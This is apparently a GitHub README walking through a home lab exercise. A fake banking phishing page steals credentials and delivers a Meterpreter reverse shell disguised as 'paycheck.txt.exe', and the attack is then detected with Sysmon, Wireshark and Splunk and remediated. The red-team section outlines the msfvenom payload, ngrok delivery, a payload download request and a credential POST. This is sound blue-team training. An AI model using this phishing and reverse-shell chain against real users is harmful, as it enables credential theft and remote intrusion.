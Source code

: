 # 🎯 Phishing to Incident Response Lab Walkthrough

> **⚠️ Educational Purpose Only!** This project simulates a phishing attack and response workflow within a controlled lab environment for blue team skill-building. No part of this should be used maliciously.

---

## 🔥 Scenario Summary

A simulated phishing campaign was launched using a fake online banking page. When a victim clicked the link and submitted credentials, the site triggered a download of a **Meterpreter reverse shell** disguised as `paycheck.txt.exe`. This triggered the attack chain. The system was later detected and remediated using blue team tools.

---

## 🧰 Lab Setup

| Component     | Description                            |
|---------------|----------------------------------------|
| Kali Linux    | Attacker machine, payload/server host |
| Windows VM    | Victim endpoint                        |
| pfSense       | Network segmentation + firewall rules |
| Splunk        | Log aggregation & detection engine     |
| Wireshark     | Network traffic capture                |
| Log Hawk IDS  | Custom Python-based detection tool     |

---

## 🛠️ Red Team Phase (Initial Access)

- **Phishing Page**: Created using Flask and hosted at `http://127.0.0.1:5000`
- **Credential Stealer**: Form submission sends data to `http://127.0.0.1:8080`
- **Payload**: Reverse shell (`paycheck.txt.exe`) generated using `msfvenom`
- **Delivery**: URL shortened via **ngrok**, user tricked into clicking the link



- **Result**: Shell access gained on victim

---

## 🔎 Blue Team Phase (Detection)

### 📌 Sysmon Events

- **Event ID 1**: Process creation for `paycheck.txt.exe`
- **Event ID 7**: DLL loaded by `backgroundTaskHost.exe`
- **Event ID 13**: Registry modification by `svchost.exe` to `HKLM\System\...\UserSettings`

```xml
<Data Name='Image'>C:\Windows\System32\backgroundTaskHost.exe</Data>
<Data Name='ImageLoaded'>C:\Windows\System32\urlmon.dll</Data>
<Data Name='ProcessId'>6972</Data>
<Data Name='Signed'>true</Data>
<Data Name='User'>SILAS\jane</Data>
```

---

## 🌐 Network Traffic Analysis – Wireshark

Captured live traffic between attacker and victim:

### 🔍 Key Observations

- **Outbound Connection**: to external IP on port 4444 after `.exe` was executed
- **Payload Download**:

```
GET /payload.exe HTTP/1.1  
Host: ngrok URL
```

- **POST request with credentials**:
```
username=janedoe&password=p@ssword123
```

### 📥 Packet Export

`/evidence/wireshark-capture.pcap` (password: `infected`)(uploadingsoon)

---

## ⚠️ Detection via Log Hawk IDS

Custom rules in Log Hawk flagged the following:

- Reverse shell to dynamic port
- Abnormal parent-child relationship
- Registry persistence

---

## 🧯 Incident Response Lifecycle

### 1. **Identification**  
Log Hawk flagged abnormal network traffic. Splunk confirmed payload execution.

### 2. **Containment**  
The compromised host was blocked via **pfSense firewall** and isolated from the lab network.

### 3. **Eradication**  
Used PowerShell to:
- Kill malicious process
- Remove reverse shell and persistence key
- Clean registry entry:
```ps
Remove-Item -Path 'HKLM:\System\CurrentControlSet\Services\bam\State\UserSettings\...'
```

### 4. **Recovery**
- Host restored to baseline snapshot
- Verified clean state via hash comparisons & memory dump analysis

---

## 📈 Improvements

- 🔍 Add **YARA rules** to detect `.txt.exe` masquerading
- 🧠 Upgrade to **TheHive** + **Shuffle** for ticketing & automation
- 📦 Enhance EDR logging and integrate **Wazuh**
- 🛜 Add Suricata rules for C2 traffic detection

---

## 🧠 Lessons Learned

- Social engineering remains a potent threat vector
- Evasion techniques like double extensions can easily fool users
- Incident response is effective when detection, isolation, and remediation work together

---

## 📎 Related Projects

| Skill        | Associated Project         |
|--------------|----------------------------|
| Phishing     | [AD Lab](https://github.com/slybdev/Active-Directory/blob/main/README.md) |
| IR & Logging |   [Log Hawk IDS](https://github.com/slybdev/Log_hawk/blob/main/README.md)             |
| Network Forensics |    [This Project](https://github.com/slybdev/Network-Traffic-Monitoring-and-Attack-Detection-/blob/main/README.md)       |

---

## 👋 Final Notes

If you made it this far, thanks for reading! This was a fun exercise simulating both **red team** and **blue team** workflows. Hit that ⭐️ if this helped you or gave you project ideas!

> Built by **SlybDev (Silas)** 💻

